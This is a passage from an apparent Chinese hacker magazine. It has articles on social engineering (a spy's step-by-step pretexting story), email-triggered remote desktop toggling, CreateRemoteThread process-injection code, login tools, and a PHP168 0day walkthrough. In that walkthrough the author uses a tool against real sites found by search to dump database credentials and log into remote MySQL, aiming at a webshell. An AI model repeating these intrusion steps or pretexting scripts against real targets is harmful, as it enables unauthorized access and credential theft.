就是利用手机办业务，可以以很低的价格办理业务什么的，不过不是很稳定。还有，他们有的人说给什么电话号码打电话；为了你的话费着想，别打为妙！


### 6. 总结

为什么我们看不到别人的帐号呢？因为他们改了主显帐号为邮箱，然后点击“只允许网友通过主显示帐号查找到我”（如图10），或者使用特殊符号（如图11），这样也找不到。





图11

找不到就放弃？不，去他的空间、邮箱看看（当然小号也有可能，脏货转移啦），一定能找到蛛丝马迹。大家可以给那个“代码”发邮件，如果没有退信，猜想正确（可能关了）。

现在人们网络安全意识逐渐提高，可是，提高不等于不中招，总有一些人会抓住我们的把柄！所以我建议最好用虚拟机、影子系统之类的软件，这样，你的系统才会“无敌”。呵呵，希望大家好好学习技术，不要走一些歪门邪路！黑也要黑得光明！

## 社会工程学

## ——无法忽视的另类安全

信徒

随着安全技术的不断开发，利用技术弱点进行攻击变得越来越困难，攻击者更多地转向利用人的弱点。社会工程学越来越强力地挑战了将信息安全集中于防火墙、入侵检测系统和杀毒软件的传统信息安全。

社会工程学由现实中的一些欺骗手段，延伸应用到网络之中而形成的。社会工程学的出现，使得入侵渗透更加容易。

社会工程学是什么？

简单地来说，就是骗。社会工程学是高于普通欺骗的一种复杂手段，是一种通过对受害者本能反应、好奇心、信任、贪婪等心理进行欺骗、伤害等手段，取得自身利益的手法，近年来已经呈现迅速上升甚至滥用的地步，希望通过这篇文章能让大家尽量避免被社工的悲剧。

由于运用社会工程学的门槛比较低，所以利用社会工程学理论来攻击网络的越来越多，攻击手段也日趋成熟，技术含量也越来越高。下面我们来分析社会工程学中很经典、很有代表性的一个典例。希望大家能在这个故事中了解到社会工程学理论的应用。

## 斯蒂夫的故事

斯蒂夫是一个医学器材公司的职员，他最近在做一件新型的智能心脏。

斯蒂夫十分苦恼，他思考的如何降低心脏支架的动力消耗方面却没有丝毫的进展。

电话响了，技术支持部的雷蒙。

> “这是一个善意的来电，有三台服务器挂掉了。应该在星期四令你的文件正常使用。”

> “这真让人无法接受，”斯蒂夫很沮丧。“他们不知道自己没电脑不可以工作吗？”“我用家里的电脑连线，两个小时后，我要访问我的文件。懂了吗？”

> “我打的每一个电话，对方都要求先处理他们的事情。”

> “我现在的工作公司十分重视，我今天要完成它。”

> “星期二恢复你文件的使用，怎么样？”

> “不行，要现在！”

> “好吧，”雷蒙说，斯蒂夫还能听到他无奈地叹了口气。“我该怎么让你连线，你使用RM22服务器，对么？”

> “RM22和GM16。”

## 安全第一

“很好，可以绕过一些程序来节省些时间，我需要你的用户名和口令。”

“为什么他需要我的口令？”“你姓什么？主管是谁？”

“雷蒙，听着，你被雇用的时候，填了一个表格写下了你的密码。我可以找到这个文件，然后告诉你？”

斯蒂夫同意。他等着雷蒙取出文件，最终返回到通话前，斯蒂夫可以听到他在摆弄一堆文件。

“哈，找到了，你写的密码是Janice。”

Janice是他母亲的名字，有时他会用作密码，很可能在他填雇用登记表时就用它做密码了。

“是的，是这样。”他承认道。

“那好，我们正在浪费时间。你知道我是真的，你想让我走捷径帮你快速地取回文件，就必须给予我帮助。”

“我的用户名是cramer，密码是pelican1。”

“三个小时内，我把它恢复正常，”

斯蒂夫吃过午饭，便来到他的计算机前，发现他的文件已经恢复了。

## 克雷格眼中的故事

克雷格是一个商业间谍。

这次收到一个紧急任务。对方公司叫做双星，一家500强企业。对于我来说，大公司比小公司容易得多。在小公司里你很可能会被对方认出来不是自己所声称的那个人，而这种情况会把你的一切都毁了。

客户发过来一封传真，说是一些医疗杂志上报道了双星医疗研究的全新设计的心脏支架，叫做STH-100。由于事情炒得很热，记者们已经替我做了前期调查工作。

于是我打电话给他们公司接线员：“我答应与你们的一位工程师联系，但我记不起她姓什么了，只记得她的名字是以S开头。”接线员说：“有两个人，一个叫斯科特，一个叫塞姆；”我冒着风险问：“哪一个在STH-100工作组？”她不知道，我只好随意选了斯科特。

对方拿起电话，我说：“嗨，我是麦克，收发室的。我们收到一个寄给STH-100心脏支架方案组的联邦快递，应该给谁？”他告诉我方案组长的名字，杰瑞，他还帮我查到了电话。

我打给杰瑞，他的语音留言说他在度假，任何人有事的话打9137找米歇尔。这些信息太有用了。我挂了电话接着打给米歇尔，她接起电话，我说：“我是比尔，杰瑞要我把说明书打给你，让组里的人看看。”

现在，到了整个布局的攻坚点了。我问：“你们用哪个系统？”

“RM22，还有GM16。”

我从她那里得到了信息，没有引起她的怀疑。接下来，为了麻痹她，我的语气自然，“杰瑞说你可以给我一个研发组成员的电子邮件列表，”

“当然，表太长了，不便阅读，发邮件给你”

坏了！一个不是GeminiMed.com的邮箱都会带来麻烦。“你能发传真给我么？”

她顺利地应允了。

“传真机坏了，我问问另一台的号码，一会打给你。”我挂了电话。

我打电话对接线员说：“嗨，我是比尔，我们的传真机坏了，可以往你那里发一个传真么？”她说没问题。

过了一会儿，我打回电话。

我说，“我还得把它发给我们的顾问，能帮我发么？”

她把传真发给“顾问”的时候，我正迈步走向我附近的一家店。我拥有了那个小组的成员名单和邮件列表。

现在我已经跟许多不同的人谈过话，并往目标迈了一大步，继续搞从外部拨入工程服务器的电话号码。我再次打到双星，能找一个人给予我帮助。他把电话转给别人，我装作对计算机技术一窍不通。“我在家里，我刚买了一个笔记本，需要设置一下，以便能从外面拨入服务器。”

设置很简单，但我耐心地让他一步一步地教我，直到拨入电话号码。他告诉我那个号码，就像说出其他的一些日常信息。然后，我让他等我试一下。

拨号进入，偶然发现一台计算机上的来宾账号口令为空。于是我获得了加密口令。

一个叫斯蒂文的工程师，拥有一个口令为“Janice”的账号。可这不是服务器的口令。我得用些技巧来让这个人自己告诉我他的用户名和密码。我一直等到周末。后面的事情，你们已经知道了。周六，我打电话给克莱格，用服务器必须从备份中恢复的理由打消他的怀疑。也许有人要问，他填写雇用登记表时的口令是怎么一回事？我指望他不会记着所有的事，谁还会记得自己几年前的密码。而且，那份名单上还有其他人能尝试。

我找到了需要的文件。

## 对故事的分析

入侵者是一个熟悉社会工程学的人，我们不得不承认他的技术。他的大部分工作如探囊取物般简单。先是假扮收发室的工作人员，声称收到一封联邦快递包裹来增加紧迫感，这样他得到了心脏支架研发组组长的名字。这位组长正在度假，可他却留下了助手的名字和电话。克雷格打给这位助手，谎称项目组长的要求来打消她的怀疑。组长不在城里，米歇尔在无法证实他所言属实的情况下相信了，并把项目组成员名单毫无保留地提供给他。当克雷格让她发传真而不是使用令双方都方便的电子邮件时，她甚至都没有怀疑。为什么她如此轻易地相信他人？如同许多工作人员那样，这个人所做的事是她的上司交代要做的。

### 故事中入侵者使用到的技能有哪些？

- 充分收集环境中的信息，进行详细的分析。  
- 对这些材料进行整理，设计陷阱。  
- 在入侵过程中，入侵者完美地运用了模仿的技能，对麻痹目标起很大作用。  
- 利用心理学、人际关系学等技术。  
- 缜密的思维。  

这些也是社工必备的技能，入侵者利用这些技能，经过缜密的处理，取得了重大的成绩，不得不为之称赞。

无可避免地，社会工程学被人用来诈骗。本质却是为了入侵。有朋友说，黑客技术本身就是骗术，但骗的却是计算机，是系统。

社会工程学将黑客技术进行到最大化，不仅利用系统弱点进行入侵，还能通过人性的弱点进行入侵。当这两种技术融为一体时，将根本不可能有安全的系统存在，技术高超的社会工程师最终会击溃所有的安全防线！

## 巧发邮件，让远程控制用“报码”

郭建伟

小李是单位的网管员，为了便于工作，他在服务器上开启了远程桌面终端服务，这样不管走到哪里，都可以远程操作目标主机。不过最近当小李检查服务器日志时，发现有可疑的远程连接信息，看来八成是有黑客“光顾”过。如何才能既阻上黑客非法连接，又不影响自己的正常远程控制操作呢？经过一番研究，小李终于找到了解决之道：让远程控制软件“听从”自己的“招呼”，根据自己的需要启动或者停止远程控制服务。本文以远程桌面/终端服务、Remote Administrator两款远程控制软件为例，说明实现的具体方法。

### 一、远程桌面/终端服务的开启方法

按照常规方法，在 Windows 2003/XP 环境中，要想激活本机的远程桌面/终端服务，需要在“我的电脑”→“属性”→“远程”中勾选“允许用户远程连接到此计算机”。其本质是修改注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server` 下的 `fDenyTSConnections` 值：设为 `0` 表示开启，设为 `1` 表示关闭。

### 二、创建批处理文件

NirCMD 是免费的命令行增强程序。将 `nircmd.exe` 复制到 `C:\Windows`，并新建 `openrd.bat` 与 `closerd.bat` 两个批处理文件，用于修改上述注册表键值来开启/关闭远程桌面服务。

```bat
nircmd regsetval dword "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" "fDenyTSConnections" "0"

nircmd regsetval dword "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" "fDenyTSConnections" "1"
```

### 三、远程遥控远程桌面/终端服务开关状态

GMail Commander 是一款可通过 Gmail 邮箱接收控制命令并远程执行的软件。在主窗口中填写 Username、Password、Accept IDs、Refresh 等参数，完成后点击 Done。

在右侧说明中：向目标主机的 Gmail 发送纯文本邮件，内容为 `cmd openrd.bat` 可开启远程桌面/终端服务；发送 `cmd closerd.bat` 可关闭服务。程序按设定周期检查邮件并执行匹配命令。

### 四、远程遥控 Remote Administrator 开关状态

与远程桌面/终端服务相比，Remote Administrator 应用广泛。安装后在“开始”→“程序”中创建程序组，包含“Start Remote Administrator server”和“Stop Remote Administrator server”快捷项，用于启动/关闭服务。GMail Commander 可根据邮件命令自动搜索并执行对应快捷项。

在目标主机上运行 GMail Commander。当需要开启 Remote Administrator 服务时，进入您的主叫邮箱，按照上述方法，向您的 Gmail 邮箱发送包含“Run Start Remote Administrator server”内容的邮件（如图4），其中的“Run”参数表示执行目标快捷方式。远程主机上的 GMail Commander 收到该邮件后，即可执行开始程序菜单中的“Run Start Remote Administrator server”菜单项，这样就启动了 Remote Administrator 服务。当使用完毕后，再向您的 Gmail 邮箱发送包含“Run Stop Remote Administrator server”的邮件，就可以关闭 Remote Administrator 服务了。

> （文中涉及“GMail Commander/nircmd”，本期光盘已收录）

## 无密码的加密法

年晓东

对于加密，恐怕大家都不陌生了。加密，最关键的当然就是密码了，当然也有将信息加密放入到图片、声音或是视频等格式文件之中的。其实，还有一类不需要密码的加密方法，比如使用一个图片文件来作为加密的密钥。该工具名叫 PixelCryptor，据说它的加密原理是对作为密钥的图片先进行 MD5 加密，然后再从中截取出一部分 MD5 密文来作为加密的密码。

首先到 `http://u.115.com/file/f0936decb6` 下载这个大小为 3.2MB 的 PixelCryptorSetup.exe 安装程序，之后双击进行安装，直接一路进行“Next”和“I accept the agreement”操作即可。运行 PixelCryptor，主界面非常简洁，最主要的功能都在中间的两个按钮上了：左边的是“Encode Files”，负责加密；右边的是“Decode Files”，负责解密（如图1）。点击左边的“Encode Files”按钮，在弹出的“Encoding-Select which files and folders to include in the package”（“加密-选择打包的加密文件和文件夹”）窗口中，点击中间的“Add File”按钮进行待加密文件的选择操作（如果想同时加密在同一个文件夹中的多个文件的话，可单击“Add Folder”按钮），这样就会把选中的文件添加进来了。接着单击右下角的“Next”按钮，在弹出的“Encoding-Select which image to use for the encode process”（“加密-选择一幅图片以用于加密过程”）窗口中，单击中间的“Click here to select an image”（“单击此处选择一幅图片”）。选择好作为密钥的图片文件之后，继续单击右下角的“Next”按钮，在弹出的“Encoding-Select a destination for the package”（“加密-选择存放加密文件的目标文件夹”）窗口中设定好路径和生成的文件名，再点击“Next”按钮即可完成文件的加密工作（如图2）。

解密过程与加密过程类似，既可以在主界面中单击“Decode Files”按钮，也可以直接双击已经生成的“007.cgp”文件来打开调用 PixelCryptor。接着就要选择加密时所使用到的图片密钥文件“背影.jpg”，然后点击“Next”按钮，马上就会显示出被加密的文件名、大小和类型等信息；继续点击“Next”按钮设置待解密文件的存放路径，PixelCryptor 就会很快还原出一个未加密的原文件来（如图3）。

怎么样，是不是很简单而且非常有趣？只要保存好加密时使用过的图片密钥文件，我们不就实现了不需要密码就能加密的愿望了呢？呵呵，大家不妨一试。

> （文中涉及的“PixelCryptor”本期光盘已收录）

## 安全第一

## 漫谈进程来找你

函数在编程语言中的作用，无论哪本教科书都会大书特书，例如怎样调用，怎样传参，函数体在别的源文件又该怎么引用。但，再详细的教科书，都没写要调用别的进程的函数该怎么办。

调用别的进程的函数，就是所谓的远程调用。这里的“远程”，与网络范畴的“远程”有所区别。网络的远程是指网络中的其他计算机，而这里的远程，则是在同一台机器上运行的别的进程。什么时候需要远程调用呢？较常见的例子就是游戏外挂。要使游戏中的角色完成某种特定动作，可以采用模拟客户端发送数据包的方法实现，但这种方法工作量较大，如果能找到游戏中该动作所对应的函数，那就考虑使用远程调用的方法。

我们知道，运行在保护模式下的现代操作系统，例如 Windows，通常是进程隔离的，也就是一个进程无法使用另一个进程的资源，包括函数。但是，由于实际编程的需要，Windows 也预留了跨进程的访问接口，例如 `CreateRemoteThread` 可以跨进程创建线程，`ReadProcessMemory` / `WriteProcessMemory` 则分别可以跨进程读取/写入内存，而 `VirtualAllocEx` 则可以跨进程申请内存空间。了解了这些 API，我们就可以来实现和丰富远程调用。唱主角的是 `CreateRemoteThread`。`CreateRemoteThread` 是个曝光率比较高的 API，很多人一看到它，第一反应就是远程注入 DLL。当然，远程注入 DLL 也是可以间接实现远程调用，不过过于繁琐，我们还是去繁就简，重新认识一下 `CreateRemoteThread`，函数声明如下：

```c
HANDLE WINAPI CreateRemoteThread(
    __in  HANDLE hProcess,
    __in  LPSECURITY_ATTRIBUTES lpThreadAttributes,
    __in  SIZE_T dwStackSize,
    __in  LPTHREAD_START_ROUTINE lpStartAddress,
    __in  LPVOID lpParameter,
    __in  DWORD dwCreationFlags,
    __out LPDWORD lpThreadId
);
```

看起来眼花缭乱，其实常用的参数就三个，分别解决远程调用的三个问题。首先，既然是远程调用，那就得指定进程，通过第一个参数 `hProcess`，就可以传入指定进程的句柄。接着就要开始调用了。远程调用函数没有本地调用函数这么便利，不是简单地 call 函数名，而是要 call 函数的首地址——不过有什么所谓，这样岂有黑客的感觉：）获取函数首地址的方法可以另写一篇文章，这里就不作展开。我们把得到的首地址填入 `CreateRemoteThread` 的第四个参数 `lpStartAddress`，就实现了函数的远程调用。是不是简单得令人愕然，想立刻动手试试？别急，还有最后一个常用参数 `lpParameter`，即第五个参数。我们知道，有些函数是要传参数的，`lpParameter` 就是专门用来放参数。不过，这里只有一个位置，只能传入一个参数。远程注入 DLL 需要远程调用 `LoadLibrary`，这个函数只需要一个参数，所以没有问题；但如果要调用的函数有多个参数怎么办呢？暂且按下不表。

现在，远程调用的核心部分就介绍完了，接下来实验一下。需要远程调用的目标进程的核心代码如下：

```c
void print()
{
    MessageBox(0, "Remote Call", "Hacker", 0);
}

main()
{
    printf("%x", GetCurrentProcessId());
    getchar();
    print();
}
```

代码很简单，先输出本进程的进程 ID，然后等待击键动作，最后调用 `print`。这个 `print` 函数就是要调用的函数，它将弹出一个提示框。接着看远程调用的核心代码：

```c
main()
{
    DWORD PID = 0;
    scanf("%x", &PID);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, PID);
    CreateRemoteThread(
        hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)0x401000,
        NULL,
        0,
        NULL
    );
}
```

代码也很简单，这里由于已知进程 ID，所以利用 `OpenProcess` 来获取进程句柄，接着就是调用 `CreateRemoteThread`。`print` 函数的起始地址是 `0x401000`，由于不用传参数，所以 `lpParameter` 设为 `NULL`。

看看效果，首先运行目标程序。

这里显示进程 ID 是 `0x13C0`，请注意光标的位置。现在运行远程调用的程序，输入进程 ID，回车。

提示框出现了，请再次注意光标的位置。光标并没有动，说明没有击键动作；按程序原来的流程，不击键是不会弹对话框的，这说明我们成功地远程调用了 `print` 函数。当然，这只是个极简单的范例，在实际运用中需要灵活组合各种跨进程 API，才可以解决很多限制，实现远程调用，例如刚才说的多参数问题。解决 `CreateRemoteThread` 无法调用多参数函数的问题，需要绕点弯子，曲线救国。首先，用 `VirtualAllocEx` 申请一片内存空间；接着，用 `WriteProcessMemory` 向该内存空间写入一个间接调用函数，间接调用函数的伪代码如下：

```asm
Push 参数1
Push 参数2
...
Push 参数n
Call 目标函数
```

根据实际需要填写这些参数，当然，需要把它们转换为机器码。最后，用 `CreateRemoteThread` 远程调用这个间接调用函数，就可以实现多参数的远程调用。

这只是一个抛砖引玉的例子，可能还有更好更巧的解决方法，同时也还有更多细节问题，例如如何获取函数的返回值，这些就都待大家自己去发掘和解决了。

> （文章中涉及的相关代码本期光盘已收录）

## 让Windows登录密码学会“变身术”

郭建伟

### 一、程序介绍

《西游记》中的孙行者具有七十二变的法术，每遇险阻其总是施展变化之能事，打得众多敌手晕头转向。为了保护 Windows 安全，我们通常为其设置登录密码。不过登录密码一旦设定，就处于固定不变的状态，直到您重设密码为止。一旦别人探知了您的密码，您的系统就处于危险状态了。如何让登录密码具有孙大圣的本领，每次启动都会腾挪变化呢？试试 SecureLogin my PC 这款有趣的安全软件吧，它可以让登录密码千变万化，让别人难以捉摸。

### 二、安装与使用

#### 步骤一：安装 SecureLogin my PC

SecureLogin my PC 运行需要 Microsoft .NET Framework 2.0 以上组件的支持，而且其只能为 Windows 2000/XP“效劳”。当其初次运行后，在其主窗口中会列出所有的 Windows 账户，勾选您所需的账户名（本例为“lysofter”），表示为该账户添加动态登录密码功能。之后点击“Ctrl+Alt+Delete”键，SecureLogin my PC 会提示您重新启动系统。之后 SecureLogin my PC 接管了 Windows 的登录管理机制，在启动过程中，会自动弹出 SecureLogin my PC 认证界面。在其中选择上述账户名称，因为是初次使用，您必须输入其正常密码。（图1）

#### 步骤二：熟悉密码盘

之后才可以进入该账户环境中。在 Windows 中点击“Ctrl+Alt+Delete”键，在弹出面板中点击“Activate new card”按钮，进入密码盘向导界面。（图2）

所谓密码盘实际上就是一张表格，其横向排列着 A 到 Z 字母，纵向排列着 1 到 11 数字（图3），不同的坐标存储着不同密码字符。该密码盘的特点是动态的，每次显示的内容是不同的。SecureLogin my PC 的运行机制独具特色，它不是记忆密码本身，而是记录您设定的密码排列顺序。这样做的好处是密码可以随机变化，但是其排列顺序固定，从而产生动态的密码。

#### 步骤三：设置密码排列顺序

在上述界面中可以看到，SecureLogin my PC 可以随机选择起点字符位置，我们不妨将其称为“锚点”。您可以以该锚点为起点，灵活地配置所需的密码排列顺序。例如本例中锚点坐标为 N6，其对应的字符为“g”。为了简单起见，我们设定密码为 5 位，采用的排列顺序为从锚点开始，向其右侧横向每隔一个坐标点选择一个字符，来组成登录密码。这里选择的坐标点依次为 R6、T6、V6、X6，其对应的字符为“=”“+”“y”“%”，表示我们选择的密码为“g=+y%”。

点击“Next”按钮，在下一步窗口中可以看到密码盘内容发生了变化，其锚点坐标变为“N7”，对应的字符为“T”（图4）。我们按照之前设定的排列顺序，依次点击 R7、T7、V7、X7 等坐标点，选择“6djc”等字符，组成新的密码“T6djc”。之后点击“Next”按钮，SecureLogin my PC 经过对比两个密码排列规则，发现其完全相同，会弹出密码盘设定成功的消息框。当然，这里我们设定的密码排列顺序比较简单，仅仅限于单行中。您完全可以发挥想象，设定不同行不同列的更加复杂的密码排列顺序。注意，密码长度最少不能低于四位。

#### 步骤四：使用随机密码登录系统

之后当重新启动系统后，您必须在“One Time Password”窗口中选择对应的账户名称（本例为“lysofter”），随后进入密码盘面板显示窗口。在其中可以得到随机锚点位置，本例中锚点坐标为 C1，对应的字符为“M”。我们可以按照预设的密码排列顺序，以该锚点为起点，向其右侧横向每隔一个坐标点选择一个字符，其坐标依次为“E1”“G1”“I1”“M1”，组成的密码为“M7gks”。

注意，如果锚点过于接近密码盘右侧边界，其读取的顺序为到达最后一个坐标点后，从该行最左侧循环，直到选定所需的密码位数为止。您可以直接点击对应坐标点获取密码，不过为了安全起见，您最好在“Password”栏中手工输入从密码盘中读取的密码。点击 OK 按钮，待 SecureLogin my PC 检测无误后，才可以正常进入系统。

可以刷新密码盘，让您重新选择密码组合。因为这种密码输入机制有效期只有一次，即使别人知道了您本次输入的密码，当其下一次试图进入系统时，照样会被 SecureLogin my PC 拒绝，因为其不知道您的密码排列规律，无法从密码盘中读取正确的密码。


## 小提示

- 如果系统中存在多个账户，您可以按照同样的方法，为不同的账户分别创建不同的密码排列规则，这样各个账户都可以使用其密码盘安全登录系统。
- 当您希望重新设置密码排列规则时，只需点击“Ctrl+Alt+Delete”键，在弹出面板中点击“Activate new card”按钮，按照上述方法设置新的规则即可。
- 当您想卸载 SecureLogin my PC，必须在其主窗口中取消所有账户的选择状态，将其和所有相关账户解除绑定关系，同时为其分别设定新的登录密码，才可以执行卸载操作。

（文章中涉及的相关软件本期光盘已收录）

## PHP168“新”漏洞深入原创

### 一、利用工具入侵网站

最近又无聊了，于是随便在黑客论坛上转转，看看有没有什么新的漏洞。居然看到一个 php168 最新 0day 利用工具，而且帖子说官网也存在这个漏洞。下载完工具，上传杀毒网查无毒后就开始测试。先来打开利用工具，可以看见主界面，如图1。

在一般的情况下，管理员的用户名就是 admin，但这也不是一定的。可以使用工具的下载后台和下载日志来查看管理员的用户名，如图3。可以看到“成功登录，保密了”，并且管理员是 hkhauya。




既然号称能入侵官网，我就直接点击测试了一下。结果居然成功了，工具显示出了 mysql 数据库的用户名和密码，并在存放工具的文件夹下生成了一个数据库配置文件，如图2。

网站的后台地址很简单，如果管理员没有修改的话，直接在网址后面加 admin 回车就出现了。但是使用数据库的密码去登录却失败了，这时候就只有想其他方法了。首先我使用 telnet 网站 3306 的 cmd 命令来确认服务器是否允许外部连接 mysql 数据库。这个 cmd 命令就是利用 telnet 命令确定服务器的 3306 端口有没有打开，而 mysql 数据库的默认端口就是 3306。有的服务器的数据库即使允许外部连接，但是限制了 IP，这样也是无法连接的。看到可以连接，并且数据库的版本是 5.0.81 的，如图4。




现在让我们来实际测试一下吧！谷歌搜索 Powered by PHP168 就可以找到很多网站了。把使用 php168 cms 的网站地址替换掉默认的 v6.php168.com，然后点击开始就可以看网站的 mysql 数据库的用户名和密码了。而且这个工具支持批量，在右边的网址就是有漏洞的。

很快我就找到了一个有漏洞的网站，得到了 mysql 数据库的用户名和密码。但是怎么利用呢？最简单的就是把这个当成管理员的密码去登录后台，然后通过后台拿 webshell。

可以连接就表示我们可以在本地搭建 mysql 数据库，然后连接远程的数据库查看里面的数据。搭建 mysql 数据库的方法有很多，这里推荐大家使用搭建 php 环境的 phpnow。里面集成有 mysql 数据库，大家可以到官网下载。完成 phpnow 的安装以后，进入 mysql 文件夹中的 bin 文件夹中去。由于连接远程数据库是在 cmd 命令下完成的，大家可以建一个 bat 文件，内容为 cmd.exe。双击这个 bat，就可以打开 cmd 命令了，而且默认就是在 mysql 的 bin 目录下，方便执行 mysql 的命令。mysql 数据库连接远程数据库的语句为：**mysql -u用户名 -p密码 -h网址或者ip地址**，我按照语句输入得到的数据库用户名和密码就成功地登录了，如图5。


图5

先来看看服务器中有些什么数据库，使用 mysql 命令 **show databases** 可以看到在这个用户权限下能访问的数据库名称，如图6。


图6

我们来进入 dbhkhuaya 这个数据库，使用 mysql 命令：**use dbhkhuaya** 就可以了。可以看到有回显 database changed，说明现在我们就可以使用 mysql 的命令来查看这个数据库里面的内容，如图7。

